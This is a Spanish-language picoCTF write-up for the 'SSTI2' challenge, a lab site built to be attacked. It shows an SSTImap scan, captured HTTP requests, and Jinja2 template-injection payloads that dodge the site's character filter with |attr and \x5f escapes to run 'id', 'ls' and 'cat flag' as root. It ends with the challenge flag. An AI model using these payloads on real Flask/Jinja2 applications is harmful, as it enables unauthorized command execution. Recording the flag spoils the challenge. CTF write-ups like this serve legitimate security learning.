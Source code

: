 ```yaml
---
title: SSTI2
date: 2025-07-22 23:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI2
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto se inicia con un formulario web que propone una entrada para hacer un anuncio, introduces un texto y se muestra en otra página en letras grandes.

```html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 
```

Si echamos la vista atrás en en reto [pico-ctf-sst1](../pico-ctf-sst1) ya hacíamos esta comprobación de provocar un error al introducir una división por zero y en este reto podemos hacer lo mismo, obteniendo el primer positivo al introducir { {1/0} }, en principio un positivo.

``` html
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

En dicha ocasión me valí de **Sttimap** una herramienta que automatiza el proceso de explotación de este tipo de vulnerabilidades. Esta vez la detección nos dice que no puede levantar una shell, pero parece que sí hay un punto de inyección con motor Jinja2, supuestamente vulnerable. Toca seguir escarbando.

``` shell
(sstimap) pablo☠office sstimap$ ./sstimap.py  -f --os-shell --url="http://shape-facility.picoctf.net:52506"

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://shape-facility.picoctf.net:52506/ "content="
[*] Scanning form with url: http://shape-facility.picoctf.net:52506/
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: render
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: no
    File read: no
    Code evaluation: no

[-] No system command execution capabilities have been detected on the target.
```

Al capturar con Zap proxy el request, me doy cuenta de el el request se codifica antes de ser enviado. 

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B3*3%7D%7D
```

%7B%7B3*3%7D%7D = {\{3*3}\} 

Busqué un payload que funcionase con esta vulnerabilidad y encontré lo que me pareción muy razonable. Pues supuestamente estaríamos haciendo que este motor ejecute instrucciones de Python, por lo que podemos intentar algo así:

[https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-)

>\{\{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() \}\}

Sin embargo el la web del formulario al enviar este payload nos envía a una web con el siguente mensaje

``` html 
Stop trying to break me >:(
```

Bueno no es la flag pero nos da una pista, si además hacemos caso de las pistas proporcionadas "Why is blacklisting characters a bad idea to sanitize input?", ¿Es posible que haya algún caracter(es) que filtre el formulario?.

Al hacer el request y capturar con Zap nos muestra que hay ciertos caracteres que no se está encodeando.

``` 
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B+request%5B%27application%27%5D%5B%27__globals__%27%5D%5B%27__builtins__%27%5D%5B%27__import__%27%5D%28%27os%27%29%5B%27popen%27%5D%28%27whoami%27%29%5B%27read%27%5D%28%29+%7D%7D
```

Encontré un payload aún más razonable respecto a lo comenta su autor. evitar que un WAF detecte ciertos caracteres como "_" o el ".", además este payload está adaptado a Jinja2. Por cierto muy interesante el repositorio, está lleno de payloads.
[https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9](https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9)

## ¿Qué es attr en Jinja2?
En Jinja2, attr es un filtro que sirve para acceder a un atributo de un objeto de forma dinámica usando el nombre del atributo como cadena.
Se utiliza cuando se hace uso de Jinja2 en un proyecto de esta forma. Y es la misma forma que vamos a probar para lanzar comandos.

\{\{ obj|attr('nombre_atributo') \}\}

## Generando un payload dirigido

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()\}\}

Resultado somos root

```
uid=0(root) gid=0(root) groups=0(root) 
```
Buscamos la flag primero lanzando un ls

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()\}\}

Encontramos el archivo flag

```
__pycache__ app.py flag requirements.txt 
```

Ya solo queda leer el archivo

\{\{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()\}\}


picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}

flag: **picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}**

Nota: Si alguno de estos payloads no te funciona prueba a juntar las llaves "{" pues es problemático para Chirpy.